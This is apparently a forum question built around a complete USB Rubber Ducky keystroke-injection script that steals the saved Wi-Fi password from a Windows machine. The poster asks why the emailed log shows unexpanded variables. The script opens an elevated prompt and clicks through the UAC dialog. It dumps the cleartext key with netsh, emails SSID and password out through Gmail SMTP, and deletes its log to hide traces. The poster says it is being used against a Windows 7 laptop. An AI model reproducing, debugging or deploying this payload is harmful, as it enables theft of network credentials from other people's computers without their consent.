 REM Title: WiFi password grabber save to twin duck SD
REM Author: silent_noise
REM Original by: Siem
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt. Then saves to the CD card on the twin duck
REM Adjust time for driver install
DELAY 3000
REM  Minimize all windows
WINDOWS d
REM  Open cmd & bypass UAC
DELAY 500
WINDOWS r
DELAY 200
STRING powershell Start-Process cmd.exe -Verb runAs
ENTER
DELAY 500
ALT y
DELAY 600
REM Define DUCKY drive as %duck%
STRING for /f %d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set duck=%d
ENTER
DELAY 100
REM Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER
REM Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER
REM Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER
REM Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER
REM Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER
REM  Delete A.txt
STRING del A.txt
ENTER
REM  Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER
DELAY 100 
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('SENDER@gmail.com', 'password')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'SENDER"gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECIEVER"gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 500
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER




However When I get the email it comes out like this.
SSID: %A%
Network type: %B%
Authentication: %C%
Password: %D%

Also using it against a windows 7 laptop.